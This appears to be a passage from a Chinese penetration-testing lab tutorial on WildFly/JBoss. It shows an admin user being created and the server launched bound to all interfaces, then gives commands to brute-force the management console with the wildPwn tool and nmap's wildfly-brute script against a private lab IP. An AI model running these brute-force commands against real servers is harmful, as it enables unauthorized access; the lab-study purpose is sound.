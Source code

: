 ```shell
Using realm 'ManagementRealm' as discovered from the existing property files.
Username : admin
The username 'admin' is easy to guess
Are you sure you want to add user 'admin' yes/no? yes
Password recommendations are listed below. To modify these restrictions edit the add-user.properties configuration file.
 - The password should not be one of the following restricted values {root, admin, administrator}
 - The password should contain at least 8 characters, 1 alphanumeric character(s), 1 digit(s), 1 non-alphanumeric symbol(s)
 - The password should be different from the username
Password :
JBAS015269: Password must have at least 8 characters!
Are you sure you want to use the password entered yes/no? yes
Re-enter Password :
What groups do you want this user to belong to? (Please enter a comma separated list, or leave blank for none)[  ]:
About to add user 'admin' for realm 'ManagementRealm'
Is this correct yes/no? yes
Added user 'admin' to file '/usr/local/wildfly-8.0.0.Final/standalone/configuration/mgmt-users.properties'
Added user 'admin' to file '/usr/local/wildfly-8.0.0.Final/domain/configuration/mgmt-users.properties'
Added user 'admin' with groups  to file '/usr/local/wildfly-8.0.0.Final/standalone/configuration/mgmt-groups.properties'
Added user 'admin' with groups  to file '/usr/local/wildfly-8.0.0.Final/domain/configuration/mgmt-groups.properties'
Is this new user going to be used for one AS process to connect to another AS process?
e.g. for a slave host controller connecting to the master or for a Remoting connection for server to server EJB calls.
yes/no? yes
To represent the user add the following to the server-identities definition <secret value="dG9vcg==" />

//启动JBoss(静默启动，程序会在后台运行)
# ./standalone.sh -Djboss.bind.address=0.0.0.0 -Djboss.bind.address.management=0.0.0.0&
```

##### 漏洞检测

1、URL访问

```shell
//默认监听端口在9990
http://172.16.144.158:9990/
```

![image-20200702202856723](/images/Jboss/image-20200702202856723.png)

2、爆破

```shell
# git clone https://github.com/hlldz/wildPwn.git
# cd wildPwn
# python wildPwn.py -m brute --target 172.16.144.183 --port 8080 -user userList.txt -pass passList.txt

nmap ‐n -Pn ‐‐script=wildfly‐brute.nse ‐‐script‐args "userdb=userList.txt,passdb=pass.txt,hostname=domain.com" 172.16.144.183 -p9990
```
